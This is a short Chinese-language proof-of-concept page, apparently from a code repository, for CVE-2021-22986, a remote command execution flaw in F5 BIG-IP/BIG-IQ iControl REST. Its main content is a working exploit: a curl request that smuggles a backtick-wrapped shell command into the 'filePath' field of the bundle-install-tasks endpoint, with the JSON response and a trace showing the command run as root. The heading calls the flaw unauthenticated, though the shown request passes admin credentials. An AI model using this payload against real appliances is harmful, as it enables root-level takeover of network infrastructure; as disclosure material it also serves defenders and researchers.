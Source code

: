 # BIG-IP/ BIG-IQ iControl REST 未经身份验证的RCE (CVE-2021-22986)

此漏洞允许未经身份验证的攻击者通过BIG-IP管理界面和IP地址，对iControl REST接口进行网络访问，以执行任意系统命令，创建或删除文件以及禁用服务。此漏洞只能通过control plane利用，而不能通过 data plane利用。

详情：https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

**PoC：**

```json
wvu@kharak:~$ curl -ksu admin:[redacted] https://192.168.123.134/mgmt/tm/access/bundle-install-tasks -d '{"filePath":"`id`"}' | jq .
{
  "filePath": "`id`",
  "toBeInstalledAppRpmsIndex": -1,
  "id": "36671f83-d1be-4f5a-a2e6-7f9442a2a76f",
  "status": "CREATED",
  "userReference": {
    "link": "https://localhost/mgmt/shared/authz/users/admin"
  },
  "identityReferences": [
    {
      "link": "https://localhost/mgmt/shared/authz/users/admin"
    }
  ],
  "ownerMachineId": "ac2562f0-e41f-4652-ba35-6a2b804b235e",
  "generation": 1,
  "lastUpdateMicros": 1615930477819656,
  "kind": "tm:access:bundle-install-tasks:iappbundleinstalltaskstate",
  "selfLink": "https://localhost/mgmt/tm/access/bundle-install-tasks/36671f83-d1be-4f5a-a2e6-7f9442a2a76f"
}
wvu@kharak:~$
```

ID将以ROOT身份执行。

```
[pid 64748] execve("/bin/tar", ["tar", "-xf", "uid=0(root)", "gid=0(root)", "groups=0(root)", "context=system_u:system_r:initrc_t:s0", "-O"], [/* 9 vars */]) = 0
```